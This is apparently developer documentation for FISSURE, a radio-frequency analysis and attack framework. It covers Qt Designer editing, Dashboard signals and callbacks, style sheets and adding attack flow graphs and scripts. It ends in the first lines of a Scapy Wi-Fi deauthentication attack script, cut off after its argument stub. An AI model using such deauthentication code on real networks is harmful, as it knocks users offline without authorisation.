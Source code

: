 ===========
Development 
===========

This section will explain what it takes to edit the code for FISSURE so you can make your own improvements. FISSURE is intended to make edits easy for the user and the developers want to hear improvement ideas to the interface as well as any new code that you want to share for the project.

Built With
==========

The following software tools are used to edit the different aspects of FISSURE.

**Read the Docs**

To regenerate the offline HTML RTD documentation:

.. code-block:: console

   $ cd ~/FISSURE/docs/RTD
   $ make clean && make html

The updated html pages will be found in the ``./docs/RTD/_build/html/pages/`` folder. It is helpful when suggesting changes to the developers or when making pull requests to share the updated text snippets or the .rst files located in ``./docs/RTD/pages/`` in their entirety.

**Git**

To submit changes for FISSURE, clone the git repository with the SSH address to avoid errors when doing a push later on. Generate an SSH key and add it to your GitHub access settings by following the installation instructions.

FISSURE contains many git submodules linked to online repositories for downloading GNU Radio out-of-tree modules. To add a new git submodule to the FISSURE git project the following command is needed:

.. code-block:: console

   $ git submodule add -b maint-3.8 https://github.com/someone/gr-something.git ./Custom_Blocks/maint-3.8/gr-something

To copy git submodules in bulk from one project to another the following steps can be performed, but keep in mind it may be easier to add them individually with the command listed above to avoid errors with more complicated project configurations.

1. Get rid of the files in each OOT module folder except .git
2. Copy the modules folder ``.git/``
3. Copy the submodule lines in ``.git/config``
4. Copy the submodule lines in ``.gitmodules``

**Qt Designer**

Qt Designer is used to edit the GUI widgets for the Dashboard and other windows. Existing examples of widgets used with other features can be an excellent guide when making edits for the first time. An important note to recognize is the start of the object name is linked to the style sheets. Styling was removed from the .ui file because it takes precedence over applying changes through the style sheets/View menu items. Refer to the style sheets section below and the .css files in the  ``./UI/Style_Sheets/`` folder for examples of global and specific styling assignments for widgets.

Python2 branch:

.. code-block:: console

   $ sudo apt-get install python-qt4 qt4-designer

Python3 branch:

.. code-block:: console

   $ sudo apt-get install -y build-essential qtcreator qt5-default

To launch: 

.. code-block:: console

   $ designer

Open any .ui file found in the ``./UI/`` folder to begin editing.

**Grip**

Grip was previously used for generating html help files from markdown files but it has since been replaced by .rst files and Read the Docs.

Python2 branch:

.. code-block:: console

   $ sudo python2 -m pip install grip

Python3 branches:

.. code-block:: console

   $ sudo python3 -m pip install grip

To convert markdown to html (requires Internet connection): 

.. code-block:: console

   $ grip README.md --export README.html

Modifying Dashboard
===================

This guide will provide examples on how to add GUI elements to the FISSURE Dashboard and interact with those elements within the FISSURE code. The process for editing FISSURE is as follows:

1. Add new widgets to .ui files with Qt Designer
2. Connect signals from the widgets to slots
3. Messages sent to other components first go to the Dashboard backend
4. The Dashboard Backend forwards messages to the HIPRFISR
5. The HIPRFISR callbacks handle/forward the message to other components on the network
6. The component callbacks handle the message and return status messages and data back to the HIPRFISR callbacks
7. The HIPRFISR forwards the status messages to the Dashboard callbacks
8. The Dashboard callbacks update the frontend GUI components

QtDesigner
----------

Launch QtDesigner with the `designer` command and open the ``./UI/dashboard.ui`` file to edit the Dashboard. Menu items are stored in the ``./UI/FissureDashboard.ui`` file and other supporting files can also be found in the same folder.

.. image:: /pages/Images/qtdesigner.png

**Creating New Widgets**

Frequently used widgets:

- Push Button
- Text Edit
- Combo Box
- Check Box
- Label
- Frame
- Spin Box
- Double Spin Box
- Horizontal Slider
- Table Widget
- Tab Widget
- Stacked Widget
- Tree Widget
- Group Box
- Progress Bar
- List Widget

Drag widgets onto the Dashboard and modify their property values in the Property Editor. 

It is suggested to use an objectName consistent with the following naming convention while also being mindful of the style sheet naming conventions: \_widget-type\_tab-location\_description_ (e.g. pushButton\_automation\_manual, textEdit\_iq\_timeslot\_input)

Menu items can be added by clicking "Type Here" in any of the menus/submenus and entering text. Separators can be added by clicking "Add Separator" and then dragged or by right clicking and clicking "Insert Separator". Submenus can be added by clicking the right side of any menu item. There is an issue with Qt Designer adding new menu items after too many have been added. The screen will cut off the bottom of the menu but you can still navigate with the arrow keys and type in new items. To rearrange the items, close Qt Designer and open the .ui file in a text editor to readjust their positions.

Dashboard Frontend
------------------

The Dashboard code is separated by Frontend, Backend, UI Components, and Slots. The Frontend code is responsible for the initializing the GUI elements and connecting signals to slots. Each tab has their own initialization function that is called for setting default values and initializing variables. The Frontend also recalls FISSURE settings and launches the Backend code.

Signals and Slots
-----------------

When an action is performed on a Qt widget the function that gets called is assigned through connect functions. The ``connect_slots()`` function calls other connect functions grouped by the different FISSURE tabs and menus. The following is an example of how to connect a widget to a function:

.. code-block:: python
    
    def connect_attack_slots(dashboard: Dashboard):
        # Check Box
        dashboard.ui.checkBox_attack_show_all.clicked.connect(
            lambda: AttackTabSlots._slotAttackProtocols(dashboard)
        )

        # Combo Box
        dashboard.ui.comboBox_packet_protocols.currentIndexChanged.connect(
            lambda: AttackTabSlots._slotPacketProtocols(dashboard)
        )

        # Push Button
        dashboard.ui.pushButton_packet_restore_defaults.clicked.connect(
            lambda: AttackTabSlots._slotPacketRestoreDefaultsClicked(dashboard)
        )

The ``./fissure/Dashboard/Slots/`` folder contains the functions for each FISSURE tab/section. The `dashboard` object passed into each function provides the means to access the .ui objects. Function in other tabs can be access through the `fissure` import item like in this example: ``fissure.Dashboard.Slots.IQDataTabSlots._slotIQ_LoadIQ_Data(dashboard)``.

There are two types of slots, synchronous and asynchronous. Synchronous functions execute sequentially while asynchronous functions do not have to block operations. Asynchronous messages are primarily used for functions that work with FISSURE network commands. This ensures other actions can be performed while messages are passed between components. An example of a synchronous and asynchronous slot is shown below:

.. code-block:: python

    @QtCore.pyqtSlot(QtCore.QObject)
    def _slotIQ_RecordSigMF_Clicked(dashboard: QtCore.QObject):
        """ 
        Follows SigMF standard for recording IQ data when enabled.
        """
        # Enabled
        get_filename = str(dashboard.ui.tableWidget_iq_record.item(0,0).text())
        .
        .
        .
        
    @qasync.asyncSlot(QtCore.QObject)
    async def _slotIQ_InspectionFG_StartClicked(dashboard: QtCore.QObject):
        """ 
        Starts the inspection flow graph.
        """
        # Stop Flow Graph
        if dashboard.ui.pushButton_iq_inspection_fg_start.text() == "Stop":
            # Send Message
            await dashboard.backend.inspectionFlowGraphStop(dashboard.active_sensor_node, 'Flow Graph - GUI')
        .
        .
        .

Dashboard Backend
-----------------

The Dashboard Backend is responsible for network communications to the HIPRFISR (the central hub). It keeps track of heartbeats and incoming messages and also issues outgoing messages. An example of an outgoing message called from the Frontend is shown below:

.. code-block:: python

    async def attackFlowGraphStop(self, sensor_node_id, parameter, autorun_index):
        """
        Sends a message to stop a single-stage attack.
        """
        # Send the Message
        if self.hiprfisr_connected is True:
            PARAMETERS = {"sensor_node_id": sensor_node_id, "parameter": parameter, "autorun_index": autorun_index}
            msg = {
                    fissure.comms.MessageFields.IDENTIFIER: fissure.comms.Identifiers.DASHBOARD,
                    fissure.comms.MessageFields.MESSAGE_NAME: "attackFlowGraphStop",
                    fissure.comms.MessageFields.PARAMETERS: PARAMETERS,
            }
            await self.hiprfisr_socket.send_msg(fissure.comms.MessageTypes.COMMANDS, msg)

Callbacks
---------

Callbacks are the functions that are executed when a message is received over the network. The callback files are grouped by FISSURE component and are located in ``./fissure/callbacks/``. The HIPRFISR callbacks mainly forward the messages to their intended destinations as shown in the example below:

.. code-block:: python

    async def attackFlowGraphStop(component: object, sensor_node_id=0, parameter="", autorun_index=0):
        """
        Sends message to Sensor Node to stop a running attack flow graph.
        """
        # Send Message to Sensor Node
        PARAMETERS = {"sensor_node_id": sensor_node_id, "parameter": parameter, "autorun_index": autorun_index}
        msg = {
            fissure.comms.MessageFields.IDENTIFIER: component.identifier,
            fissure.comms.MessageFields.MESSAGE_NAME: "attackFlowGraphStop",
            fissure.comms.MessageFields.PARAMETERS: PARAMETERS,
        }
        await component.sensor_nodes[sensor_node_id].listener.send_msg(fissure.comms.MessageTypes.COMMANDS, msg)

Callback functions will often reference frequently used functions in its component's primary code. Component variables and functions can be referenced as follows:

.. code-block:: python

    async def attackFlowGraphStop(component: object, sensor_node_id=0, parameter="", autorun_index=0):
        """
        Stop the currently running attack flow graph.
        """
        # Use the Function that is Called Frequently in SensorNode.py
        component.attackFlowGraphStop(sensor_node_id, parameter, autorun_index)

Dashboard callbacks can reference GUI elements and functions found in other files like in this example:

.. code-block:: python

    async def flowGraphFinishedIQ(component: object, sensor_node_id=0):
        """ 
        Called upon cancelling IQ recording. Changes the status and button text.
        """       
        # Change Status Label and Record Button Text
        component.frontend.ui.label2_iq_status_files.setText("Not Recording")
        component.frontend.statusbar_text[sensor_node_id][4] = 'Not Recording'
        component.frontend.refreshStatusBarText()

        # Refresh File List
        IQDataTabSlots._slotIQ_RefreshClicked(component.frontend)
        .
        .
        .

Common Qt Widget Operations
---------------------------

Any widget in the Dashboard can be referenced with ``dashboard.ui.objectName`` or ``component.frontend.ui.objectName``.

The following are frequently called public functions for the widgets in FISSURE. They are listed as ``self.objectName`` for simplicity:

.. code-block:: console
    
    # Push Button
    self.pushButton_name.text()
    self.pushButton_name.setText("Text")
    self.pushButton_name.setEnabled(False)
    self.pushButton_name.setVisible(True)

    # Text Edit
    str(self.textEdit_name.toPlainText())
    self.textEdit_name.setPlainText("Text")

    # Combo Box
    str(self.comboBox_name.currentText())
    self.comboBox_name.clear()
    self.comboBox_name.addItem(get_dissector)
    self.comboBox_name.addItems(get_packet_types)
    self.comboBox_name.setCurrentIndex(0)
    self.comboBox_name.currentIndex(0)

    # Check Box
    self.checkBox_name.isChecked()
    self.checkBox_name.setChecked(False)

    # Label
    self.label_name.text()
    self.label_name.setText(get_samples)
    self.label_name.setPixmap(QtGui.QPixmap(os.path.dirname(os.path.realpath(__file__)) + "/docs/Icons/USRP_X310.png")) 

    # Frame
    self.frame_name.pos()
    self.frame_name.geometry()

    # Spin Box/Double Spin Box
    self.spinBox_name.value()
    self.spinBox_name.setValue(10)
    self.spinBox_name.setMaximum(35)
    self.spinBox_name.setMinimum(0)

    # Horizontal/Vertical Slider
    self.horizontalSlider_name.setMinimum(int(win_min))
    self.horizontalSlider_name.setMaximum(int(win_max))
    self.horizontalSlider_name.setValue(int(win_min)) 
    self.horizontalSlider_name.setSliderPosition(2)

    # Table Widget
    self.tableWidget_name.rowCount()
    self.tableWidget_name.columnCount()
    self.tableWidget_name.setColumnCount(1)
    self.tableWidget_name.setRowCount(0)
    self.tableWidget_name.removeRow(1)
    self.tableWidget_name.removeColumn(5)
    self.tableWidget_name.insertRow(0)
    self.tableWidget_name.currentRow() 
    self.tableWidget_name.clearContents()
    self.tableWidget_name.resizeRowsToContents()                   
    self.tableWidget_name.resizeColumnsToContents()    
    self.tableWidget_name.setColumnWidth(4,130)
    self.tableWidget_name.horizontalHeader().setResizeMode(2,QtGui.QHeaderView.Stretch)  
    self.tableWidget_name.horizontalHeader().setStretchLastSection(True)                
    self.tableWidget_name.verticalHeaderItem(0).text()
    self.tableWidget_name.setHorizontalHeaderItem(1,QtGui.QTableWidgetItem(""))
    self.tableWidget_name.item(0,5).text()
    self.tableWidget_name.setCurrentCell(self.tableWidget_name.currentRow()-1,0)
    table_item = self.tableWidget_name.takeItem(self.tableWidget_name.currentRow()-1,0)
    table_item = QtGui.QTableWidgetItem(str(657))  # from PyQt4 import QtCore, QtGui, uic
    table_item.setTextAlignment(QtCore.Qt.AlignCenter)
    table_item.setFlags(table_item.flags() & ~QtCore.Qt.ItemIsEditable)
    self.tableWidget_name.setItem(0,0,table_item) 
    self.tableWidget_name.item(row,4).setFlags(self.tableWidget_name.item(row,4).flags() ^ QtCore.Qt.ItemIsEnabled)
    self.tableWidget_name.cellWidget(0,4).currentText()
    self.tableWidget_name.cellWidget(1,0).isChecked()
    self.tableWidget_name.cellWidget(row,0).isEnabled()
    self.tableWidget_name.cellWidget(row,0).setCurrentIndex(1)
    self.tableWidget_name.setCellWidget(0,0,new_button)                

    new_checkbox = QtGui.QCheckBox("",self)
    new_checkbox.setStyleSheet("margin-left:17%")
    self.tableWidget_name.setCellWidget(n,0,new_checkbox)

    new_pushbutton = QtGui.QPushButton(self.table_list[n])
    new_pushbutton.setText("Guess")
    new_pushbutton.setFixedSize(64,23)
    self.tableWidget_name.setCellWidget(self.tableWidget_name.rowCount()-1,1,new_pushbutton)
    new_pushbutton.clicked.connect(lambda: self._slotGuessInterfaceTableClicked(get_value))

    # Tab Widget
    self.tabWidget_name.currentIndex()
    self.tabWidget_name.setCurrentIndex(4)
    self.tabWidget_name.tabText(self.tabWidget_name.currentIndex())
    self.tabWidget_name.setTabText(0,"Detector")
    self.tabWidget_name.setTabToolTip(1,"Target Signal Identification")
    self.tabWidget_name.setTabEnabled(2,False)
    self.tabWidget_name.count()
    self.tabWidget_name.removeTab(1)
    new_tab = QtGui.QWidget()       
    vBoxlayout  = QtGui.QVBoxLayout()
    vBoxlayout.addWidget(self.table_name)
    new_tab.setLayout(vBoxlayout)   
    self.tabWidget_name.addTab(new_tab,"text")  
    get_table = self.tabWidget_name.children()[0].widget(n).children()[1]  # TabWidget>>StackedLayout>>Tab>>Table

    # Stacked Widget
    self.stackedWidget_name.currentIndex()
    self.stackedWidget_name.setCurrentIndex(1)
    self.stackedWidget_name.count()

    # Tree Widget
    self.treeWidget_name.currentItem().text(0) 
    self.treeWidget_name.setCurrentItem(self.treeWidget_name.topLevelItem(0))
    new_item = QtGui.QTreeWidgetItem()
    new_item.setText(0,"text")
    new_item.setDisabled(True)
    self.treeWidget_name.addTopLevelItem(new_item)
    self.treeWidget_name.clear()
    self.treeWidget_name.setHeaderLabel("text")
    self.treeWidget_name.invisibleRootItem()  
    self.treeWidget_name.collapseAll()   
    self.treeWidget_name.expandAll() 
    self.treeWidget_name.findItems("text",QtCore.Qt.MatchExactly|QtCore.Qt.MatchRecursive,0)[0].setDisabled(False)
    self.treeWidget_name.findItems("text",QtCore.Qt.MatchExactly|QtCore.Qt.MatchRecursive,0)[0].setHidden(False)
    iterator = QtGui.QTreeWidgetItemIterator(self.treeWidget_name)
    while iterator.value():
        item = iterator.value()
        if item.text(0) in self.pd_library['Attack Categories']:
            item.setFont(0,QtGui.QFont("Times", 11, QtGui.QFont.Bold))                    
        iterator+=1      

    # Group Box    
    self.groupBox_name.setVisible(False)
    self.groupBox_name.setEnabled(False)

    # Progress Bar
    self.progressBar_name.hide() 
    self.progressBar_name.show()      
    self.progressBar_name.setMaximum(100)
    self.progressBar_name.setValue(10)

    # List Widget
    self.listWidget_name.setCurrentRow(0)
    get_index = self.listWidget_name.currentRow()
    self.listWidget_name.count()
    get_text = str(self.listWidget_name.item(row).text())
    self.listWidget_name.addItem(preset_name)
    self.listWidget_name.addItems(modulation_list)
    for item in self.listWidget_name.selectedItems()
    self.listWidget_name.takeItem(self.listWidget_name.row(item))
    self.listWidget_name.clear()

The following are examples of commonly used connect functions:

.. code-block:: console

    # Push Buttons
    self.pushButton_tsi_clear_SOI_list.clicked.connect(self._slotTSI_ClearSOI_ListClicked)
    self.pushButton_pd_dissectors_construct.clicked.connect(lambda: self._slotPD_DissectorsConstructClicked(preview = False))

    # Check Boxes 
    self.checkBox_automation_receive_only.clicked.connect(self._slotAutomationReceiveOnlyClicked)

    # Combo Boxes
    self.comboBox_tsi_detector.currentIndexChanged.connect(self._slotTSI_DetectorChanged)

    # Radio Buttons
    self.radioButton_library_search_binary.clicked.connect(self._slotLibrarySearchBinaryClicked)

    # Double Spin Boxes
    self.doubleSpinBox_pd_bit_slicing_window_size.valueChanged.connect(self._slotPD_BitSlicingSpinboxWindowChanged)

    # Horizontal Sliders
    self.horizontalSlider_pd_bit_slicing_preamble_stats.valueChanged.connect(self._slotPD_BitSlicingSliderWindowChanged)

    # Table Widgets   
    self.tableWidget_automation_scan_options.cellChanged.connect(self._slotAutomationLockSearchBandClicked) 
    self.tableWidget_pd_bit_slicing_lengths.itemSelectionChanged.connect(self._slotPD_BitSlicingLengthsChanged)
    self.tableWidget_pd_bit_slicing_candidate_preambles.cellDoubleClicked.connect(self._slotPD_BitSlicingCandidateDoubleClicked)
    self.tableWidget_pd_bit_slicing_packets.horizontalHeader().sectionClicked.connect(self._slotPD_BitSlicingColumnClicked)  

    # Labels
    self.label_iq_end.mousePressEvent = self._slotIQ_EndLabelClicked

    # List Widgets
    self.listWidget_library_gallery.currentItemChanged.connect(self._slotLibraryGalleryImageChanged)
    self.listWidget_library_browse_demod_fgs.itemClicked.connect(self._slotLibraryBrowseDemodFGsClicked)
    self.listWidget_iq_inspection_flow_graphs.itemDoubleClicked.connect(self._slotIQ_InspectionFlowGraphClicked)

    # Text Edits
    self.textEdit_iq_start.textChanged.connect(self._slotIQ_StartChanged)

    # Tree Widgets
    self.treeWidget_attack_attacks.itemDoubleClicked.connect(self._slotAttackTemplatesDoubleClicked)

    # Menu Items
    self.actionAll_Options.triggered.connect(self._slotMenuOptionsClicked)

    # Tab Widgets
    self.tabWidget_tsi.currentChanged.connect(self._slotTSI_TabChanged)

    # List Widget
    self.listWidget_options.currentItemChanged.connect(self._slotOptionsListWidgetChanged)
    self.listWidget_library_browse_attacks3.itemClicked.connect(self._slotLibraryBrowseAttacksClicked)
    self.listWidget_pd_flow_graphs_recommended_fgs.itemDoubleClicked.connect(self._slotPD_DemodulationLoadSelectedClicked)  

    # Custom Signals 
    self.connect(self, self.signal_PD_Offline, self._slotPD_Offline)

Generic Input Dialogs
---------------------

The generic input dialogs will be moved to a central location in the future. There are synchronous and asynchronous versions available for most types of dialog. If a message box dialog is part of an asynchronous function, it must have an asynchronous version to prevent errors.

This section will be updated with examples once all the input dialog code has been reorganized. The following are old examples of synchronous input dialogs:

Text Edit:

.. code-block:: console

    text, ok = QtGui.QInputDialog.getText(self, 'Rename', 'Enter new name:',QtGui.QLineEdit.Normal,get_file)
    if ok:
        print text


ComboBox:

.. code-block:: console

    # Open the Band Chooser Dialog
    new_label_text = "Choose 4G Band"
    new_items = ['2', '3', '4', '5', '7', '12', '13', '14', '17', '20', '25', '26', '29', '30', '40', '41', '46', '48', '66', '71']
    chooser_dlg = MiscChooser(parent=self, label_text=new_label_text, chooser_items=new_items)
    chooser_dlg.show()
    chooser_dlg.exec_() 

    # Run the Script
    get_value = chooser_dlg.return_value
    if len(get_value) > 0:   
        print get_value

Folder:

.. code-block:: console

    # Choose Folder
    get_dir = str(QtGui.QFileDialog.getExistingDirectory(self, "Select Directory"))
    if len(get_dir) > 0:            
        print get_dir

Open File:

.. code-block:: console

    # Choose File
    fname = QtGui.QFileDialog.getOpenFileName(None,"Select IQ File...", default_directory, filter="All Files (*)")
    if fname != "":
        print fname

Save File:

.. code-block:: console

    # Choose File
    fname = QtGui.QFileDialog.getSaveFileName(None,"Select File...", default_directory, filter="All Files (*)")
    if fname != "":
        print fname

Error Message:

.. code-block:: console

    self.errorMessage("Flow Graph was not Found in PD Flow Graph Library!")

Message Box:

.. code-block:: console

    msgBox = MyMessageBox(my_text = " Choose an IQ file.", height = 75, width = 140)
    msgBox.exec_() 

Style Sheets
============

Style sheets are applied to the Dashboard and its child windows using the style sheets found in the ``./UI/Style_Sheets/`` folder. There are three files: light, dark, and custom. Each file contains a similar structure where settings can be applied to all widgets of the same type or for specific widgets using their object IDs. Many of the styles are applied to widgets that have object names starting with a specific naming convention. This allows commonly used widget subcategories to have their own styles. Each type of widget has their own unique properties that can be customized. 

If possible, avoid hard-coding styling values in the Python code to better manage and organize the styling for FISSURE. Desktop environments will have different appearances for default settings and Qt versions can also have differences. Any style sheet adjustments that need to be made based on operating system will be inserted into the ``./fissure/Dashboard/Slots/MenuBarSlots.py`` file.

Colors schemes are assigned to the widgets in the style sheets using temporary variables that later get populated with the RGB values for light, dark, and custom modes. The following mappings are used throughout the style sheets:

+---------------------------+-----------------------------------------------------------+
| Mapping                   | Description                                               |
+===========================+===========================================================+
| @color1                   | Background                                                | 
+---------------------------+-----------------------------------------------------------+
| @color2                   | Frame Background                                          |
+---------------------------+-----------------------------------------------------------+
| @color3                   | Label Background                                          |
+---------------------------+-----------------------------------------------------------+
| @color4                   | Label Text                                                |
+---------------------------+-----------------------------------------------------------+
| @color5                   | Text Edit Background                                      |
+---------------------------+-----------------------------------------------------------+
| @color6                   | Button Gradient 1                                         |
+---------------------------+-----------------------------------------------------------+
| @color7                   | Button Gradient 2                                         |
+---------------------------+-----------------------------------------------------------+
| @color8                   | Disabled Gradient 1                                       |
+---------------------------+-----------------------------------------------------------+
| @color9                   | Disabled Gradient 2                                       |
+---------------------------+-----------------------------------------------------------+
| @color10                  | Hover Gradient 1                                          |
+---------------------------+-----------------------------------------------------------+
| @color11                  | Hover Gradient 2                                          |
+---------------------------+-----------------------------------------------------------+
| @color12                  | Button Text                                               |
+---------------------------+-----------------------------------------------------------+
| @color13                  | Disabled Text                                             |
+---------------------------+-----------------------------------------------------------+
| @icon_path                | Filepath of Icons Folder                                  |
+---------------------------+-----------------------------------------------------------+
| @checked_enabled          | File Name of Checked Enabled Checkbox Image               |
+---------------------------+-----------------------------------------------------------+
| @checked_disabled         | File Name of Checked Disabled Checkbox Image              |
+---------------------------+-----------------------------------------------------------+
| @unchecked_enabled        | File Name of Unchecked Enabled Checkbox Image             |
+---------------------------+-----------------------------------------------------------+
| @unchecked_disabled       | File Name of Unchecked Disabled Checkbox Image            |
+---------------------------+-----------------------------------------------------------+
| @down_arrow_enabled       | File Name of Enabled Arrow Down Button Image              |
+---------------------------+-----------------------------------------------------------+
| @down_arrow_disabled      | File Name of Disabled Arrow Down Button Image             |
+---------------------------+-----------------------------------------------------------+
| @up_arrow_enabled         | File Name of Enabled Arrow Up Button Image                |
+---------------------------+-----------------------------------------------------------+
| @up_arow_disabled         | File Name of Disabled Arrow Up Button Image               |
+---------------------------+-----------------------------------------------------------+
| @radio_unchecked_enabled  | File Name of Enabled Unchecked Radio Button Image         |
+---------------------------+-----------------------------------------------------------+
| @radio_checked_enabled    | File Name of Enabled Checked Radio Button Image           |
+---------------------------+-----------------------------------------------------------+
| @menu_hover_padding       | Padding for Menu Hover Text                               |
+---------------------------+-----------------------------------------------------------+

Style Sheet Example:

.. code-block:: css

    /*Global*/
    QCheckBox{
        font-family: "Ubuntu";
        font-size: 10pt;
    }

    /*Subcategory*/
    QCheckBox[objectName^="checkBox_"]{
        background-color: rgba(0,0,0,0);
        color: @color4;
    }
    QCheckBox[objectName^="checkBox_"]:disabled{
        color: @color13;
    }
    QCheckBox[objectName^="checkBox_"]::indicator:unchecked {
        image: url(@icon_path/@unchecked_enabled);
    }
    QCheckBox[objectName^="checkBox_"]::indicator:checked {
        image: url(@icon_path/@checked_enabled);
    }
    QCheckBox[objectName^="checkBox_"]::indicator:disabled:checked {
        image: url(@icon_path/@checked_disabled);
    }
    QCheckBox[objectName^="checkBox_"]::indicator:disabled:unchecked {
        image: url(@icon_path/@unchecked_disabled);
    }

    /*Specific*/
    QLabel#label4_status1{
        color: @color4;
        font: 10pt "Ubuntu";
    }

Adding Custom Options
=====================

**Options Dialog**

Bring up the options dialog in Qt Designer using the `designer` command and then open the ``FISSURE/UI/options.ui`` file. Click the arrows for the stacked widget (top right) to locate the table where the custom option will be inserted. Double-click on the table and add a new row with the name of the variable. Set the font size to match the other rows with the "Properties<<" button.

.. image:: /pages/Images/options.png

**default.yaml**

Open ``FISSURE/YAML/User Configs/default.yaml`` and insert the variable name and value (fft_size: 4096) for the new option.

**Accessing Stored Values**

Access the variables throughout the FISSURE code from the backend or other local settings locations such as: `dashboard.backend.settings['fft_size']` or `self.settings['fft_size']`.

Attack Flow Graphs
==================

**Flow Graph Configuration**

A new Python file is generated each time a .grc file is executed in GNU Radio Companion. The format of this auto-generated Python file is used by FISSURE to perform actions like: displaying variable names, starting attacks, changing values for a running flow graph, etc. Editing the Python file may cause FISSURE to not function properly.

*GUI vs. No GUI*

Flow graphs are called differently depending on if there is a GUI or not. Flow graphs configured to "No GUI" mode in the "Options" block will be loaded as a Python module prior to runtime and then modify the default variables. The standard start(), wait(), and stop() commands are applied in this case.

Flow graphs with GUIs have their Python files called directly and behave similarly to inspection flow graphs (See *Help>>Inspection Flow Graphs*). Variables can be changed from the GNU Radio GUI in the form of GUI widgets or as command line arguments from parameter blocks. 

*Options Block (No GUI)*

Within the "Options" block:

- "ID" must match the file name
- "Generate Options" must be set to "No GUI"

*Special Variables*

The Dashboard populates certain flow graphs variable names like "ip_address" and "serial" to match the values in the Attack hardware button. These variables must be named correctly in the flow graph to be populated automatically and handled as intended. Refer to other attack flow graphs as examples for how these variables should be utilized.

*Numerical Strings*

To help specify that a string variable containing only numerical values is indeed a string and should not to be interpreted as a float, a new variable named "string_variables" can be added to the flow graph. Its value must be a list with the names of the variables to be considered as exceptions: ["variable_name"]

For example:

.. image:: /pages/Images/string_variables.png

**Uploading Attack Flow Graph**

Attack flow graphs can be added to FISSURE within the *Library>Add* tab by selecting a protocol and choosing "Attack". Attacks will be visible within the Attack tree if the "Attack Template Name" is entered properly.

Attack Python Scripts
=====================

**Creating Python Scripts**

Non-GNU Radio attacks can be added to the FISSURE library by uploading specially configured Python (.py) files. A function is needed within the Python script to identify which variables can be modified in the FISSURE Dashboard (`getArguments()`). Those variables are used by the system as command line arguments during execution of the script. All FISSURE branches accept both Python2 and Python3 attack scripts.

FISSURE will parse a variable named "run_with_sudo" set to True or False and set the "Run with sudo" checkbox upon loading the attack in the Single-Stage Attack tab. For multi-stage attacks, this variable is listed in the generated tables and its value is used to run the script with or without sudo. If no variable is found, then Python scripts will rely on the checkbox for single-stage attacks and be run with sudo for multi-stage attacks.

Variables with filepath in their name will automatically generate a file navigation button for tables inside FISSURE. If the filepath contains "/FISSURE/", the string will be split and appended to the user's location for FISSURE. This is to make configuring an attack easier by accounting for the current username in filepaths.

*Scapy Example*

The following example uses Scapy to send multiple deauthentication frames from a wireless interface. Use the code as a reference for creating future Python scripts. 

.. code-block:: python

    from scapy.all import Dot11,Dot11Deauth,RadioTap,sendp
    import os, sys

    #################################################
    ############ Default FISSURE Header ############
    #################################################
    def getArguments():
        client = '00:11:22:33:44:55'        # Target MAC address
